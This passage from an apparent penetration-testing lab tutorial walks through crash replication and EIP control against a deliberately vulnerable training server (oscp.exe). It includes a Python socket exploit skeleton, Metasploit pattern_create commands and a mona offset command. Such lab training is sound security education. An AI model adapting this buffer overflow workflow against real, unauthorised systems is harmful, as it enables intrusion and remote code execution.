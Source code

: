 ## Crash Replication & Controlling EIP

ï»¿Create another file on your Kali box called exploit.py with the following contents:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
 s.connect((ip, port))
 print("Sending evil buffer...")
 s.send(bytes(buffer + "\r\n", "latin-1"))
 print("Done!")
except:
 print("Could not connect.")
```

Run the following command to generate a cyclic pattern of a length 400 bytes longer that the string that crashed the server (change the `-l` value to this):

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600` 

If you are using the AttackBox, use the following path to `pattern_create.rb` instead (also ensure to change the `-l` value):

`/opt/metasploit-framework/embedded/framework/tools/exploit/pattern_create.rb -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

On Windows, in Immunity Debugger, re-open the oscp.exe again using the same method as before, and click the red play icon to get it running. You will have to do this prior to each time we run the exploit.py (which we will run multiple times with incremental modifications).

On Kali, run the modified exploit.py script: `python3 exploit.py`

The script should crash the oscp.exe server again. This time, in Immunity Debugger, in the command input box at the bottom of the screen, run the following mona command, changing the distance to the same length as the pattern you created:

`!mona findmsp -distance 600`

Mona should display a log window with the output of the command. If not, click the "Window" menu and then "Log data" to view it (choose "CPU" to switch back to the standard view).
